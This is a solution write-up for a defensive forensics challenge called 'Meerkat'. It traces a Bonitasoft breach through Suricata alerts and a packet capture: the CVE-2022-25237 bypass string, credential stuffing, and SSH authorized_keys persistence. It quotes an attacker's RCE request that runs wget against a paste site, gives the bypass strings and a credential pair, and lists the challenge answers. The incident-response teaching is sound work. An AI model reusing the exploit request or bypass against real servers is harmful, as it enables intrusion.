* **Machine Author(s):** sebh24
* **Difficulty:** Easy

## Sherlock Scenario

As a fast-growing startup, Forela has been utilising a business management platform. Unfortunately, our documentation is scarce, and our administrators aren't the most security aware. As our new security provider we'd like you to have a look at some PCAP and log data we have exported to confirm if we have (or have not) been compromised.

## Artifacts Provided

* meerkat.zip (zip file), sha256: `a76867ade304c8081e2023cbf2977c65e8c146180b2e0ff760e4059d042c2a5a`

## Initial Analysis

After unzipping the provided file, we obtain these two artifacts:

* `meerkat-alerts.json` - Log data
* `meerkat.pcap` - A PCAP file

### meerkat-alerts.json

The `meerkat-alerts.json` is a JSON log data file that has been exported and contains important information to detect potential signs of intrusion.

Because of the name of the Sherlock, we could assume that the log file is from [Suricata](https://suricata.io/), a network Intrusion Detection System (IDS), Intrusion Prevention System (IPS), and Network Security Monitoring (NSM) engine developed by the OISF and the Suricata community.



### meerkat.pcap



The `meerkat.pcap` is a PCAP (Packet Capture) file. A PCAP file is a standard data format used to store network traffic that is intercepted from a network interface.

A PCAP file captures individual packets and stores details like:

* Source and destination IP addresses
* Protocol information
* Payload data
* Timestamps

These files can be generated and viewed by packet capture tools such as
[Wireshark](https://www.wireshark.org/) and [tcpdump](https://www.tcpdump.org/), and can be used to do a lot of things, such as:

* **Network Troubleshooting:** We can diagnose network issues, such as identifying causes of packet loss or failed connections.
* **Security Forensics and Incident Response (IR):** We can use it to investigate security incidents retroactively, to determine the scope of the breach, and understand how an attacker gained access to the network.
* **Malware Analysis and Threat Hunting:** We can inspect the raw packet data to detect malicious activity, data exfiltration, or exploit attempts.
* **Application Debugging:** We can use it to analyze application-specific communication, ensuring that protocols are functioning as expected.
* **Network Performance Optimization:** We can analyze network traffic patterns to identify bottlenecks and optimize performance.

## Questions

### Task 1: We believe our Business Management Platform server has been compromised. Please can you confirm the name of the application running?

To answer this question, we can use the log file to see an alert indicating whether a server has been compromised. We can use the `jq` tool to parse the log file and filter for the alert signatures.

```bash
jq '.[] | .alert.signature' meerkat-alerts.json
```



We can see, in the results, that `Bonitasoft` was successfully exploited.

**Answer:** `Bonitasoft`.

### Task 2: We believe the attacker may have used a subset of the brute forcing attack category - what is the name of the attack carried out?

Using the results of the previous task, we can search for the CVE related to the alert (CVE-2022-25237)



In the [National Vulnerability Database](https://nvd.nist.gov/vuln/detail/CVE-2022-25237), we can see a brief description of the vulnerability:

> "Bonita Web 2021.2 is affected by a authentication/authorization bypass vulnerability due to an overly broad exclude pattern used in the RestAPIAuthorizationFilter. By appending `;i18ntranslation` or `/../i18ntranslation/` to the end of a URL, users with no privileges can access privileged API endpoints. This can lead to remote code execution by abusing the privileged API actions."

In the References, if we click on the [Rhino Security Labs](https://rhinosecuritylabs.com/application-security/cve-2022-25237-bonitasoft-authorization-bypass/) reference for the CVE, we can see that:

> "Bonita Web 2021.2 is affected by an authentication/authorization bypass vulnerability due to an overly broad filter pattern used in the API authorization filters. By appending a crafted string to the API URL, users with no privileges can access privileged API endpoints. This can lead to remote code execution by abusing the privileged API actions to deploy malicious code onto the server."

With that, we know that the attacker can bypass Bonita authorization filters by appending a crafted string to the URL, which can expose privileged API endpoints.

Since the attack pattern matches a brute force category, we can consult the [MITRE ATT&CK](https://attack.mitre.org/techniques/T1110/) page for the Brute Force technique to identify the sub-technique used.

In the page we can see these four sub-techniques:

* **Password Guessing:** Adversaries with no prior knowledge of legitimate credentials within the system or environment may guess passwords to attempt access to accounts.
* **Password Cracking:** Adversaries may use password cracking to attempt to recover usable credentials, such as plaintext passwords, when credential material such as password hashes are obtained.
* **Password Spraying:** Adversaries may use a single or small list of commonly used passwords against many different accounts to attempt to acquire valid account credentials.
* **Credential Stuffing:** Adversaries may use credentials obtained from breach dumps of unrelated accounts to gain access to target accounts through credential overlap.

Now, using the `meerkat.pcap`, we can determine how the attacker obtained valid credentials. Using Wireshark, we can go to Statistics > HTTP > Requests and see that most of the requests to the Forela site are going to the `/bonita/loginservice`.



Filtering by this, we can see all the attacker attempts to get valid credentials.




Examining each attempt reveals that the attacker uses valid username and password combinations obtained from a breach dump. Each pair consists of a valid username paired with its corresponding password from the dump. They do not reuse the same password across multiple usernames, as each account has its unique password, nor do they appear to be guessing or cracking credentials.

So, with that, we can assume that the sub-technique of Brute Force used is `Credential Stuffing`.

* **Answer:** `Credential Stuffing`.

### Task 3: Does the vulnerability exploited have a CVE assigned - and if so, which one?

Using the past two tasks, we can see that the vulnerability exploited has the `CVE-2022-25237` assigned.


**Answer:** `CVE-2022-25237`.

### Task 4: Which string was appended to the API URL path to bypass the authorization filter by the attacker's exploit?

In Task 2, we searched for the CVE related to the exploitation, and in the CVE page in [National Vulnerability Database](https://nvd.nist.gov/vuln/detail/CVE-2022-25237), we can see in the brief:

> "Bonita Web 2021.2 is affected by a authentication/authorization bypass vulnerability due to an overly broad exclude pattern used in the RestAPIAuthorizationFilter. By appending `;i18ntranslation` or `/../i18ntranslation/` to the end of a URL, users with no privileges can access privileged API endpoints. This can lead to remote code execution by abusing the privileged API actions."

The HTTP request traffic includes many URLs containing `i18ntranslation`.


So, the string appended to the API URL path is `i18ntranslation`.

* **Answer:** `i18ntranslation`.

### Task 5: How many combinations of usernames and passwords were used in the credential stuffing attack?

Filtering the PCAP for HTTP requests to `/bonita/loginservice` and reviewing the TCP conversations by Statistics > Conversations > IPV4, we can see the majority of the conversation are from `156.146.62.213`.



Filtering by this source, we can see we have a lot of packets with the default `install:install` credential trial.



By removing this trial, we find 56 unique username/password combinations used in the attack.



* **Answer:** `56`.

### Task 6: Which username and password combination was successful?

Filtering the packets by the attacker source `156.146.62.213` and by http protocol, we can search if the attacker use the appending string before the use of an credential.



As we can see, the attacker sent a request containing the CVE string after using the credentials for `seb.broom@forela.co.uk` (password: `g0vernm3n`). They then executed the whoami command to verify the privileges gained..

* **Answer:** `seb.broom@forela.co.uk:g0vernm3n`.

### Task 7: If any, which text sharing site did the attacker utilise?

In Task 2, we can see that we have a request to the `/bonita/API/extension/rce?p=0&c=1&cmd=wget%20https://pastes.io/raw/bx5gcr0et8`, so we can see that the attacker executes a command and got a file from `https://pastes.io/raw/bx5gcr0et8`, utilizing the `pastes.io` sharing site.


* **Answer:** `pastes.io`.

### Task 8: Please provide the filename of the public key used by the attacker to gain persistence on our host.

> **Hint:** The actor is staging downloads on a public pastes site. The original paste may be gone. Try [https://web.archive.org/](https://web.archive.org/).

Using the [Wayback Machine](https://web.archive.org/web/20230301000000*/https://pastes.io/raw/bx5gcr0et8) with the URL in Task 7, we can see the filename of the public key used is `hffgra4unv`



* **Answer:** `hffgra4unv`.

### Task 9: Can you confirm the file modified by the attacker to gain persistence?

In the same way as Task 8, using the [Wayback Machine](https://web.archive.org/web/20230301000000*/https://pastes.io/raw/) we also see that the file modified by the attacker to gain persistence is `/home/ubuntu/.ssh/authorized_keys`.


* **Answer:** `/home/ubuntu/.ssh/authorized_keys`.

### Task 10: Can you confirm the MITRE technique ID of this type of persistence mechanism?

For this task, we need to search the [ATT&CK Matrix for Enterprise](https://attack.mitre.org/matrices/enterprise/) to locate the Persistence technique ID related to the attack.



In the 'Persistence' tab, we can search for 'Account Manipulation' to see the related sub-techniques:



Because the attacker modified the SSH authorized_keys file to maintain persistence on a victim host, we can see that the sub-technique ID is `T1098.004`.

* **Answer:**  `T1098.004`.
